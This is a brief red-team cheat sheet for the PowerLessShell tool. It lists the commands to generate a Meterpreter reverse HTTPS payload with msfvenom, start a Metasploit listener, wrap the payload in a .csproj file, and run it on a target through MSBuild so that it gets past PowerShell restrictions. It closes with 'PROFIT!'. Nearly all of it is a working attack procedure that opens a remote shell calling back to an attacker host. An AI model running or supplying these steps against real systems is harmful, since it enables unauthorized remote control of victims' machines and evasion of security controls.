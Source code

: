 # PowerLessShell

## Link: https://github.com/Mr-Un1k0d3r/PowerLessShell

## Steps

### 1) Generate payload

    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=<IP> LPORT=445 -f psh-reflection > shell.ps1

### 2) Set Metasploit listener (Meterpreter example)

    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost <IP>;set lport 445;exploit"

### 3) Build the project file

    python2 PowerLessShell.py -type powershell -source ~/opt/shell.ps1  -output ~/opt/shell.csproj

### 4) After building completes, transfer the .csproj file to the target system. Then use the command below to execute. (Framework versions will vary).

    c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\temp\shell.csproj

### 5) PROFIT!
